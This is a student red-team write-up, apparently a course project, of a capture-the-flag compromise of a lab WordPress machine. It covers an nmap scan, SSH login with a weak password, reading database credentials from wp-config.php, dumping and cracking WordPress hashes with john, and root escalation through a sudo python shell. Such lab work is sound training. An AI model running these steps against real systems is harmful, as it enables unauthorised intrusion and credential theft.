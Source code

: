 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>
<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache https 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
   - **Exploit Used**
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag%201.png)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
    - Command: ssh michael@192.168.1.110 
    - The username and password for Michael's account is identical: michael
    - Command: locate *flag*
    - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: 
   - **Exploit Used**
    - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
    - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

      - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - DB_NAME: wordpress
    - DB_USER: root
    - DB_PASSWORD: R@v3nSecurity
    - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:
    - Flag 3 found in wp_posts.
    - Password hashes found in wp_users.
    - Command: show databases;
    - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
<br>
    - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
<br>
    - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

<br>
   - Screenshot of Wordpress user password hashes:
    - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)


<br>
  - `flag4.txt`:
   - **Exploit Used**
    - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
    - Cracking the hashed password using john.
    - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
    - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

<br>
   - Secure a user shell as the user whose password you cracked.
    - Command: ssh steven@192.168.1.110
    - Password: pink84
    - Escalating to root:
    - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
    - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)
<br>
   - Search for the root directory for Flag 4.
    - Command: cd /root/
    - Command: ls
    - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)

